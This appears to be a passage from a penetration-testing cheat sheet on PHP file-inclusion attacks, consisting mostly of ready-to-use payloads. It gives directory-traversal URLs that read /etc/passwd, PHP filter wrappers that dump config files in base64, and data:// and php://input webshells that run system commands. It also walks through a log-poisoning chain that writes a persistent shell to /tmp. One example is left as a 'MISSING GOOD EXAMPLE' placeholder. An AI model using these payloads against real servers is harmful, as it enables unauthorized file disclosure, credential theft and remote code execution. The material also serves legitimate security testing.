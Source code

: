 Try to include `https://127.0.0.1/somefile.html` frist do confirm RFI without traversing a firewall...

**Prepended scrings:**

In case a string get prepended (e.g. `include("lang_".$GET["lang"]);`) to the user controlled input of the loaded file, try to add `/` before the directory traversal to make the prepended string look like a directory - e.g.:

`https://pentest-experts.com/index.php?page=/../../../../../etc/passwd`

**Second order attacks:**

Test also for LFI in user supplied data, which is later read from the database - e.g.:

`❗❗❗ MISSING GOOD EXAMPLE ❗❗❗`

**Prepended stings:**

Many web-applications prepend string the the file inclusion path (e.g. `include($GET["lang"].".php");`) - to bypass this we have in old versions of PHP (before 5.5) this options:

 - Adding 2048 x `./` to the end of the in the path to exceed the 4096 character limit (`./` is removed by the OS when accessing a file)
 - Adding a `%00` byte after the injection (PHP uses `NUL` byte terminated strings)

##### PHP filters / wrappers

 - `php://filter/read=convert.base64-encode/resource=config.php`
 - `php://filter/read=convert.base64-encode/resource=/etc/passwd`
 - `php://filter/read=convert.base64-encode/resource=../../../../../etc/passwd`
 - `expect://whoami`  
   Expect wrapper need to be installed and activated for this attack to work
 - `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjIl0pOyA%2FPg%3D%3D&c=whoami`  
   (URL- and Base64 encoded or use in a GET parameter)  
   `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjIl0pOyA/Pg==`  
   (Only Base64 encoded for use in a POST parameter)  
   PHP webshell usage: run commands with GET parameter: `&c=whoami`
 - `curl -s -X POST --data '<?php system("whoami"); ?>' "https://pentest-experts.com/index.php?vuln_param=php://input"`  
   Input wrapper, which receive the webshell as POST data

##### LFI to RCE

**Log poisioning**

 1. Browse some URL with BrupSuite or ZAP and change the `User-Agent` field in the header to:  
`<?php echo system($_GET["c"]); ?>`
 2. Use the **access.log** to write a new shell to `/tmp`:  
`https://pentest-experts.com/read.php?file=../../../../../var/log/apache2/access.log&c=echo+'<?php+echo+system($_GET["c"]);+?>'>/tmp/s.php`
 3. Utilize the new shell:  
`https://pentest-experts.com/read.php?file=../../../../../tmp/s.php&c=ls+-l+/var/www/html/`

The User-Agent header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a number usually between 0-50).
